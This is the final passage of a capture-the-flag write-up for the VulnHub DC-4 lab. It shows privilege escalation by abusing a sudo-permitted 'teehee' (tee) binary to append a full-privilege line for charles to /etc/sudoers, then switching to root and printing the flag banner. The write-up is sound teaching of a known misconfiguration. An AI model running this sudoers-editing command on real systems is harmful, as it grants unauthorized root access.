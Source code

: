 `charles` can run `teehee` without being a sudoer. Taking a look at [this][GTFOBin]{:target="_blank"} `GTFOBin` we can 
see how we can exploit `teehee`.

```
charles@dc-4:~$ echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
charles ALL=(ALL:ALL) ALL
```

Now, `charles` can switch to `root` without needing to enter a password.

```
charles@dc-4:~$ sudo su

root@dc-4:/home/charles# cd /root

root@dc-4:~# ls -la
-rw-------  1 root root   16 Apr  7 04:31 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  2 root root 4096 Apr  6 20:32 .nano
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
-rw-r--r--  1 root root  976 Apr  6 21:27 flag.txt

root@dc-4:~# cat flag.txt
888       888          888 888      8888888b.                             888 888 888 888
888   o   888          888 888      888  "Y88b                            888 888 888 888
888  d8b  888          888 888      888    888                            888 888 888 888
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888

Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

Thus, we’ve gained captured the root flag in DC: 4.

[DCAU]:                 https://twitter.com/DCAU7
[Login]:                /images/2019-09-13-vulnhub-dc_4/Login.png
[Admin Panel - 1]:      /images/2019-09-13-vulnhub-dc_4/Admin%20Panel%20-%201.png
[Admin Panel - 2]:      /images/2019-09-13-vulnhub-dc_4/Admin%20Panel%20-%202.png
[Admin Panel - 3]:      /images/2019-09-13-vulnhub-dc_4/Admin%20Panel%20-%203.png
[Burp Suite - 1]:       /images/2019-09-13-vulnhub-dc_4/Burp%20Suite%20-%201.png
[Burp Suite - 2]:       /images/2019-09-13-vulnhub-dc_4/Burp%20Suite%20-%202.png
[Burp Suite - 3]:       /images/2019-09-13-vulnhub-dc_4/Burp%20Suite%20-%203.png
[GTFOBin]:              https://gtfobins.github.io/gtfobins/tee/#sudo
